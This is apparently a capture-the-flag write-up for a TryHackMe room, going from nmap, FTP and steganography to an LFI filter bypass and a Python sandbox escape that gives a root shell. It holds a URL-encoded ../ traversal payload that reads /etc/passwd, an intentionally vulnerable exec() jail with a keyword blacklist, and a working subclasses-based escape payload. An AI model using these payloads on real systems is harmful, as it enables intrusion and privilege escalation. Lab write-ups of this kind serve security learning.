

# [Tokyo Ghoul](https://tryhackme.com/room/tokyoghoul666)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sat Feb 19 13:45:53 2022 as: nmap -vvv -p 22,21,80 -sCV -oA init 10.10.222.220
Nmap scan report for 10.10.222.220
Host is up, received conn-refused (0.25s latency).
Scanned at 2022-02-19 13:46:05 +07 for 16s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.21.200
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeIXT46ZiVmp8Es0cKk8YkMs3kwCdmC2Ve/0A0F7aKUIOlbyLc9FkbTEGSrE69obV3u6VywjxZX6VWQoJRHLooPmZCHkYGjW+y5kfEoyeu7pqZr7oA8xgSRf+gsEETWqPnSwjTznFaZ0T1X0KfIgCidrr9pWC0c2AxC1zxNPz9p13NJH5n4RUSYCMOm2xSIwUr6ySL3v/jijwEKIMnwJHbEOmxhGrzaAXgAJeGkXUA0fU1mTVLlSwOClKOBTTo+FGcJdrFf65XenUVLaqaQGytKxR2qiCkr7bbTaWV0F8jPtVD4zOXLy2rGoozMU7jAukQu6uaDxpE7BiybhV3Ac1x
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC5o77nOh7/3HUQAxhtNqHX7LGDtYoVZ0au6UJzFVsAEJ644PyU2/pALbapZwFEQI3AUZ5JxjylwKzf1m+G5OJM=
|   256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJwYjN/qiwrS4es9m/LgWitFMA0f6AJMTi8aHkYj7vE
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 19 13:46:21 2022 -- 1 IP address (1 host up) scanned in 27.66 seconds
```

With anonymous FTP login enabled, we can login and grab all the files. I used `wget`.

```sh
wget ftp://anonymous@RHOST/ --recursive
```

`Aogiri_tree.txt` seems to just be a narrative piece, `need_to_talk` is an ELF file and `rize_and_kaneki.jpg` is of course an image. Executing `need_to_talk` prompts us for a passphrase so I looked for strings in the binary.

```sh
$ rabin2 -z need_to_talk
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00002008 9   10   .rodata ascii <REDACTED PASSPHRASE>
1   0x00002018 0x00002018 37  38   .rodata ascii Hey Kaneki finnaly you want to talk \n
2   0x00002040 0x00002040 82  83   .rodata ascii Unfortunately before I can give you the kagune you need to give me the paraphrase\n
3   0x00002098 0x00002098 35  36   .rodata ascii Do you have what I'm looking for?\n\n
4   0x000020c0 0x000020c0 47  48   .rodata ascii Good job. I believe this is what you came for:\n
5   0x000020f0 0x000020f0 51  52   .rodata ascii Hmm. I don't think this is what I was looking for.\n
6   0x00002128 0x00002128 36  37   .rodata ascii Take a look inside of me. rabin2 -z\n
```

Entering the passphrase (redacted), we're given a new string. passphrase (redacted), we're given a new string. I then checked for steganography with that new string.

```sh
$ steghide extract -sf rize_and_kaneki.jpg
Enter passphrase:
wrote extracted data to "yougotme.txt".
```

The new file `yougotme.txt` contains a bunch of dots and dashes which made me think of Morse code. Analyzing it in [CyberChef](https://gchq.github.io/CyberChef/), I ran it through "From Morse Code", "From Hex", and "From Base64" and got what looks like a directory name.

I then went to the web site on port 80. Looking at the source code, comments pointing to FTP can be found in both the landing page and `/jasonroom.html`. Going to the directory we previously got from CyberChef, we're told to scan the page so I ran `gobuster` on it.

```sh
$ gobuster dir -u "http://10.10.222.220/SECRET_DIR/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
```

The resulting directory `c***m` is found.



Looking at the links on the page, we see that we have potential LFI with `index.php?view=`. Trying to grab `/etc/passwd` with `../` doesn't work since `..` is blacklisted. The blacklist can easily be bypasswd by URL-encoding the `../`.

```
view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```

We should get kamishiro's hash which we can crack with `john`. The cracked password can then be used to SSH in as kamishiro.

Checking our `sudo` privileges ...

```sh
kamishiro@vagrant:~$ sudo -l
[sudo] password for kamishiro:
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

... we see that we can run `jail.py` as root.

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

`exec` is called on user input put through a blacklist. Looking around [hacktricks' python sandbox bypasses](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#finding-dangerous-libraries-loaded), I found and modified a payload to execute `/bin/bash`.

```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'OS.".lower() in str(x) ][0]['sys'+'tem']('/bin/bash')
```

Using that, we should get a shell as root.

```sh
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
[sudo] password for kamishiro:
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> [ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'OS.".lower() in str(x) ][0]['sys'+'tem']('/bin/bash')
root@vagrant:~#
```
